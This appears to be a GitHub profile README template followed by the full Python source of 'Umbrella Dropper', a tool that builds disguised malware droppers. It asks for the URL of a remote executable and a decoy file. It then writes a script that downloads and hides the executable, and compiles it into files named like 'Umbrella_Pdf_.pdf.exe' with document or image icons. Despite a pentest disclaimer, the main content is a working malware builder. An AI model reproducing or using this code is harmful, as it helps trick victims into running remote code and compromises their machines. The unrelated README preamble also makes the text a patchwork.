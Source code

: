 - 👋 Hi, I’m @leandrovs123
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
leandrovs123/leandrovs123 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Copyright 2017 Umbrella 
# Written by: * lero22 - 4w4k3
# https://github.com/4w4k3/Umbrella
# Licensed under the BSD-3-Clause
import os
import sys
import time
import random, string
from bin.settings import exec_com
from bin.settings import GREEN, WHITE, BLUE, RED,  END

def clear():
    os.system('clear')

def help():
    sys.stdout.write(GREEN + '''
    \n
    \n
    \n
    \n
            [UMBRELLA DROPPER] is a file dropper.''' + WHITE + '''
 To Use select an option from menu, You should know whats are doing.
                   Pentest is not to kidding !''' + BLUE + '''
    \n
    \n
    \n
    \nType [B] to return
    \n
''' + END)
def heading():
    clear()
    sys.stdout.write(GREEN + '''
                                   8
                        .,,aadd88P=8=Y88bbaa,,.
                  .,ad88888P:a8P:d888b:Y8a:Y88888ba,.
              ,ad888888P:a8888:a8888888a:8888a:Y888888ba,
           ,a8888888:d8888888:d888888888b:8888888b:8888888a,
        ,a88888888:d88888888:d88888888888b:88888888b:88888888a,
      ,d88888888:d888888888:d8888888888888b:888888888b:88888888b,
    ,d88888888:d8888888888I:888888888888888:I8888888888b:88888888b,
  ,d888888888:d88888888888:88888888888888888:88888888888b:888888888b,
 d8888888888:I888888888888:88888888888888888:888888888888I:8888888888b
d8P"'   `"Y8:8P"'     `"Y8:8P"'   888    `"Y8:8P"'     `"Y8:8P"'   `"Y8b
"           "             "       888        "             "           "
                                  888
                                  888  ''' + WHITE + '''    ![Umbrella Dropper]! v1.0''' + GREEN + '''
                                  888
                                  888
                                  888
                                  777
                                  666
        [''' + WHITE + 'D' + GREEN + '''] Gen Dropper            8     ''' + WHITE + 'by:' + GREEN + ''' Alisson Moretto (''' + WHITE + '4w4k3' + GREEN + ''')
        [''' + WHITE + 'H' + GREEN + '''] Help                   8           4w4k3@protonmail.com
        [''' + WHITE + 'U' + GREEN + '''] Update                 8             Tw: ''' + WHITE + '@4w4k3Official' + GREEN + '''
        [''' + WHITE + 'E' + GREEN + '''] Exit                   8
\n''' + END)
    print "Select an option from menu:\n"
    
########
def gen():
    sys.stdout.write(WHITE + '\n[' + GREEN + '1' + WHITE + ']' + GREEN + ' PDF DROPPER' + WHITE + ' - Drop executable, hide it and open your custom pdf.')
    sys.stdout.write(WHITE + '\n[' + GREEN + '2' + WHITE + ']' + GREEN + ' WORD DROPPER' + WHITE + ' - Drop executable, hide it and open your custom docx.')    
    sys.stdout.write(WHITE + '\n[' + GREEN + '3' + WHITE + ']' + GREEN + ' EXCEL DROPPER' + WHITE + ' - Drop executable, hide it and open your custom xlsx.')
    sys.stdout.write(WHITE + '\n[' + GREEN + '4' + WHITE + ']' + GREEN + ' IMAGE DROPPER' + WHITE + ' - Drop executable, hide it and open your custom jpg/png.\n' + END)
########
def pp():
    sys.stdout.write(GREEN + '''
    \n
    \n
    \n
    \n
          THANK YOU FOR USING [UMBRELLA DROPPER].''' + WHITE + '''
            https://github.com/4w4k3/Umbrella''' + BLUE + '''
                     @4w4k3Official
    \n
    \n
    \n
    \n
    \n
''' + END)
def randomword(length):
   return ''.join(random.choice(string.lowercase) for i in range(length))

def begin():
    print '\n[!] Attemption put direct url! ex: http://192.168.1.2/mal.exe'
    print '\n[*] Remember to include the http or https.\n'
    url_d = raw_input('Insert url from your exe to drop: ')
    embed_d = raw_input('Insert url from file to embed: ')
    if 'pdf' in embed_d:
        nameph = randomword(10) + '.pdf'
    if 'docx' in embed_d:
        nameph = randomword(10) + '.docx'
    if 'xlsx' in embed_d:
        nameph = randomword(10) + '.xlsx'
    if 'jpg' in embed_d:
        nameph = randomword(10) + '.jpg'
    if 'png' in embed_d:
        nameph = randomword(10) + '.png'
    template = open('Templates/U_dRoP.py', 'r')
    o = template.read()

    payload = '#!/usr/bin/python\n'
    payload += '# -*- coding: iso-8859-15 -*-\n'
    payload += 'import os\n'
    payload += 'from sys import exit\n'
    payload += 'import random\n'
    payload += 'from urllib import urlretrieve\n'
    payload += 'from shutil import move\n'
    payload += 'url_d = ' + "'" + url_d + "'" + '\n'
    payload += 'embed_d = ' + "'" + embed_d + "'" + '\n'
    payload += 'nameph = ' + "'" + nameph + "'" + '\n'
    payload += str(o)

    with open('D.py', 'w') as f:
        f.write(payload)
        f.close()	
    template.close()

 
def disclaimer():
     clear()
     sys.stdout.write(WHITE + '''
     UMBRELLA DROPPER
---------------------------[''' + RED + '''DISCLAIMER''' + END + ''']--------------------------
"DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE."''' + BLUE + '''\n \n Taken from LICENSE:''' + WHITE + ''' https://github.com/4w4k3/Umbrella/LICENSE \n''' + '''\n USE THIS TOOL ONLY FOR EDUCATIONAL OR WORK(PENTEST) !!!!!! ''' + '''\n \n * A noble spirit embiggens the smallest man *\n''' + END)
     raw_input('\n\n\n           [PRESS ENTER TO CONTINUE]')
    

def main():
    if not os.geteuid() == 0:
        sys.exit('Umbrella must be run as root');
    clear()
    disclaimer()    
    heading()
    try:

        while True:

            header = ('\n{1} UMBRELLA {1} ~ {2}'.format(GREEN, WHITE, END))
            choice = raw_input(header)
            
            if choice.upper() == 'Q' or choice.upper() == 'QUIT':
		clear()
		pp()
                raise SystemExit
	    elif choice.upper() == 'E' or choice.upper() == 'EXIT':
		clear()
		pp()
                raise SystemExit
            elif choice.upper() == 'H':
                help()
            elif choice.upper() == 'D':
                gen()
	    elif choice.upper() == 'U':
                exec_com('updater.py', sudo=True)
            elif choice == '1':
                begin()
                os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/pdf.umbrella -i Icons/pdf.ico -F D.py')
                os.system('rm -Rf build D.spec D.py')
                name = 'Umbrella_Pdf_.pdf.exe'
                os.rename('dist/D.exe', 'dist/' + name)
                clear()
                print '{0}[*] Done! Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
                quit = raw_input('Do You want quit or back to main?(Q/B)')
                if quit.upper() == 'Q':
                    clear()
                    pp()
                    sys.exit(0)
                elif quit.upper() == 'B':
                    main()
            elif choice == '2':
                begin()
                os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/word.umbrella -i Icons/word.ico -F D.py')
                os.system('rm -Rf build D.spec D.py')
                name = 'Umbrella_Word_.docx.exe'
                os.rename('dist/D.exe', 'dist/' + name)
                clear()
                print '{0}[*] Done! Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
                quit = raw_input('Do You want quit or back to main?(Q/B)')
                if quit.upper() == 'Q':
                    clear()
                    pp()
                    sys.exit(0)
                elif quit.upper() == 'B':
                    main()
            elif choice == '3':
                begin()
                os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -m Manifest/manifest.manifest --version-file=Resource/excel.umbrella -i Icons/excel.ico -F D.py')
                os.system('rm -Rf build D.spec D.py')
                name = 'Umbrella_Excel_.xlsx.exe'
                os.rename('dist/D.exe', 'dist/' + name)
                clear()
                print '{0}[*] Done! Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
                quit = raw_input('Do You want quit or back to main?(Q/B)')
                if quit.upper() == 'Q':
                    clear()
                    pp()
                    sys.exit(0)
                elif quit.upper() == 'B':
                    main()
            elif choice == '4':
                begin()
                os.system('wine /root/.wine/drive_c/Python27/python.exe /root/.wine/drive_c/Python27/Scripts/pyinstaller-script.py --noconsole -i Icons/img.ico -F D.py')
                os.system('rm -Rf build D.spec D.py')
                name = 'Umbrella_Img_.jpg.exe'
                os.rename('dist/D.exe', 'dist/' + name)
                clear()
                print '{0}[*] Done! Saved to:  {1}'.format(GREEN, END) + 'dist/' + name
                quit = raw_input('Do You want quit or back to main?(Q/B)')
                if quit.upper() == 'Q':
                    clear()
                    pp()
                    sys.exit(0)
                elif quit.upper() == 'B':
                    main()
            elif choice.upper() == 'B':
                main()
            else:                   
		print '\n [!] Invalid Option \n'
                
 

    except KeyboardInterrupt:
	clear()
	pp()
        sys.exit(0)


if __name__ == '__main__':
    main()
